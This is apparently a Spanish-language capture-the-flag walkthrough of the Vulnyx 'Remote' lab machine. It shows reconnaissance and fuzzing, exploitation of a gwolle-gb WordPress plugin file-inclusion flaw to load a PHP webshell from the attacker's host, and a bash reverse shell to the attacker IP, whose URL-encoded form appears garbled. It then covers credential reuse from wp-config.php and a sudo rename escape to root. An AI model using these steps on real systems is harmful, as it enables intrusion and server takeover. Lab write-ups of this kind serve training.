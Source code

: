 # Vulnyx-Remote

### Reconocimiento

```bash
# ARP scan
arp-scan -I eth0 --localnet
•(IP-victima)  08:00:27:a3:d1:62       PCS Systemtechnik GmbH

# Nmap scan
nmap -p 22,80 -sS -sC -sV  -n -Pn (IP-victima) -oN nmap
•22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
•80/tcp open  http    Apache httpd 2.4.56 ((Debian))
```

### Fuzzing

```bash
# WFuzz
wfuzz -c --hc=404  -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -u http://(IP-victima)/FUZZ
•/wordpress
```

Dentro de "/wordpress" encontramos un href que nos redirecciona a un dominio:
•href='//remote.nyx'

Asociamos el dominio a la IP en el archivo hosts:

```bash
nano /etc/hosts
•(IP-victima)	remote.nyx
```

Continuamos fuzzing:

```bash
wfuzz -c --hc=404  -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -u http://(IP-victima)/wordpress/FUZZ
•/wp-content
•/wp-includes
•/wp-admin
```

### Enumeración de Usuarios y Plugins

```bash
# WPScan
wpscan --url http://remote.nyx/wordpress --enumerate p,u --plugins-detection aggressive

Encontramos usuarios:
•tiago

Pluggins:
•akismet 5.2
•gwolle.gb 1.5.3
```

Buscamos exploits para atacar los plugins y encontramos uno [aquí](https://www.exploit-db.com/exploits/38861). Usando el siguiente comando:

```bash
http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]
```

Creamos una webshell:

```bash
nano pwned.phpwp-load.php
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Creamos un servidor Python para alojar la webshell:

```bash
python3 -m http.server 80
```

Subimos la webshell al servidor WordPress:

```bash
http://192.168.200.10/wordpress//wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://(IP-atacante)/pwned.php
```

Probamos ejecutar comandos:

```bash
http://192.168.200.10/wordpress//wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.200.5/pwned.php&cmd=whoami
•www-data
```

### Reverseshell

```bash
bash -i >& /dev/tcp/(IP-atacante)/443 0>&1
```

La ejecutamos urlencodeada:

```bash
%62%61%73%68%260%2sd%63%20%222%623%61%73%268%20%42d%692%20%3e2%22262%202%22f%64%26252%276%2f%7224%63%70%2f%31%3922%32a%2es%3d1%36%f3f8g%2hes%s32%30%30%2e%35%2f%34s%d3f4%33%20%30%3e%26%31%22
```

Antes de ejecutarla, iniciamos Netcat:

```bash
nc -nlvp 443
```

Ejecutamos el comando urlencodeado y obtenemos acceso como `www-data`.

Ahora, mejoramos la TTY:

```bash
script /dev/null -c bash
control+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Buscamos la ruta por defecto de la base de datos de WordPress y encontramos "wp-config.php":

```bash
cat wp-config.php
```

Encontramos credenciales:

```php
/** Database username */
define( 'DB_USER', 'root' );

/** Database password */
define( 'DB_PASSWORD', 'W**********!' );
```

Probamos las credenciales con el usuario `tiago`:

```bash
su tiago
pass: W*********!
whoami
•tiago
```

Escalamos a root:

```bash
sudo -l
•(root) NOPASSWD: /usr/bin/rename
sudo -u root /usr/bin/rename --help
Vemos que tenemos una opcion "man" que nos dara una shell

sudo -u root /usr/bin/rename --man
!/bin/bash
whoami
•root
```

Ya somos root :D
